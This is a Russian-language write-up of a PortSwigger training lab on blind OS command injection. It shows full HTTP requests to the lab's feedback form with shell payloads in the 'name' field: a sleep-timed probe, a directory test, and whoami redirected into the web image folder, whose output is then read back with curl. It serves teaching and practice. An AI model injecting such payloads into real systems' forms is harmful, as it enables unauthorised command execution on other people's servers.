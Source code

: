 ```yaml
---
title: "Blind OS command injection with output redirection"
date: 2025-06-26
tags: [os_command_injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection"
classes: wide
---
```


Содержит уязвимость **Blind OS command injection**. Для прохождения нужно запустить `whoami` и получить ответ.

```
https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/
```

## Solution

Бегом ковырять форму обратной связи) Соберу `HTTP` запрос:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=name&email=email%40mail.com&subject=subeject&message=message
```

Проверю поля:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(sleep 10)&email=email%40mail.com&subject=subeject&message=message
```

Поле `name` уязвимо, значит можно использовать его для запуска шелла. Нужно как-то вывести информацию на сайт. На сайте есть картинки. Если для хостинга используется `appache`, то можно попробовать создать файл в `/var/www/images`. Проверю, что эта директория есть:

```bash
if test -d "/var/www/images"; then sleep 10; fi
```

В данной строке я проверяю, что `/var/www/images` — это директория. Если это так, то вызываю `sleep 10`:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(if test -d "/var/www/images"; then sleep 10; fi)&email=email%40mail.com&subject=subeject&message=message
```

Я получил нужную задержку:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_output_redirection/1.png){: height="200" .align-center}

Попробую создать файл:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(whoami > "/var/www/images/my_file.jpg")&email=email%40mail.com&subject=subeject&message=message
```

Прочитаю файл через `curl`:

```bash
cu63:~/ $ curl https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/image\?filename\=my_file.jpg                      
peter-nYlJLk
```

Лаба решена:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_output_redirection/2.png){: height="200" .align-center}

